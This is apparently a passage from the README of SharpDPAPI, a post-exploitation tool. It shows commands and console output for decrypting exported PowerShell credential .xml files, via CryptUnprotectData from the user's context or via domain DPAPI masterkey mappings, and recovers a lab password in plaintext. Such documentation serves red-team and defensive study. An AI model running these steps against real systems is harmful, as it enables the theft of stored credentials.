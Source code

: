 The `/unprotect` flag will use CryptUnprotectData() to decrypt the credenial .xml without masterkeys needed, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

Decrypt an exported credential .xml using CryptProtectData() (the `/unprotect` flag):

    PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    PS C:\Temp> New-Object System.Management.Automation.PSCredential('TESTLAB\user', $SecPassword) | Export-CLIXml C:\Temp\cred.xml
    PS C:\Temp> .\SharpDPAPI.exe ps /target:C:\Temp\cred.xml /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe PSCredential .xml

        CredFile         : C:\Temp\cred.xml
        Accessed         : 7/25/2019 11:53:09 AM
        Modified         : 7/25/2019 11:53:09 AM
        User Name        : TESTLAB\user
        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Password         : Password123!


Using domain {GUID}:SHA1 masterkey mappings:

    PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    PS C:\Temp> New-Object System.Management.Automation.PSCredential('TESTLAB\user', $SecPassword) | Export-CLIXml C:\Temp\cred.xml
    PS C:\Temp> .\SharpDPAPI.exe ps /target:C:\Temp\cred.xml "{0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3"

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe PSCredential .xml

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3
